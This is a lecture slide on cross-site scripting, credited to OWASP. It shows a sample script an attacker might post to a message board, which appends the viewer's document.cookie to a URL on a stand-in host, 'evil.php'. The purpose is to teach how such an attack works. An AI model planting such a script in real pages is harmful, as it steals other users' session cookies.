

# XSS attacks – malicious example
Attacker inserts code like the following as posted input to, e.g., a message board
<script type="text/javascript">
   var addr = '../evil.php?cakemonster=' +
                       escape(document.cookie);
</script>
What happens when another user views the message post?
The contents of that user’s cookie will be sent to evil.php

Source: www.owasp.org